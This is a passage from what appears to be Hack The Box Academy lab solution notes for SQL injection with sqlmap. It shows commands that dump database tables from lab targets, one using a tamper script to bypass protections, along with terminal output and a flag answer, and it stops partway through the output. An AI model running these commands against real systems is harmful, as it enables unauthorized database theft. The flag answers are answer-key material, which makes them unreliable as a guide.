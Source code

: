 ```shell
sqlmap -u 'http://STMIP:STMPO/case10.php' --data="id=1" --random-agent --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case10.php' --data="id=1" --random-agent --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag10
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{y37_4n07h3r_r4nd0m1z3} |
+----+----------------------------+

<SNIP>
```

Answer: `HTB{y37_4n07h3r_r4nd0m1z3}`

# Bypassing Web Application Protections

## Question 4

### "What's the contents of table flag11? (Case #11)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #10" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CPTS/z. images/4f0ad9bbb36056fd83a1ea73a1798139_MD5.jpg]]

Thus, the `sqlmap` command becomes:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case11.php?id=1' --tamper=between -T flag11 --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case11.php?id=1' --tamper=between -T flag11 --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
```